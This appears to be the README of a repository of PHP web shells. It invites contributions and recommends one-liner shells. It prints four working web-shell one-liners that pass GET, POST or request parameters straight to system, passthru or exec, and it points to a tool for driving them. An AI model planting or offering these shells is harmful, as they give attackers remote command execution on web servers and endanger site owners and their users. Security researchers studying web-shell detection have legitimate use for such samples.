 Contributing
============
To contribute other shells not listed here... Fork, Push the changes to your repo, then before you request for a Pull, make sure to include a simple description of your **php** web-shell and include a screen-shot of the web-shell (in your as hosted in your localhost).




php-webshells
=============

Common php webshells. Do not host the file(s) in your server!

++++++++++++++++++++++++++

Though I recommend one-liners like 

<?php echo passthru($_GET['cmd']); ?>

(Not a full fledged webshell, but works fine)

=================================================================

You can try WebHandler for one-liners.

WebHandler.py works for POST and GET requests:

    <?php system($_GET['cmd']); ?>
    <?php passthru($_REQUEST['cmd']); ?>
    <?php echo exec($_POST['cmd']); ?>


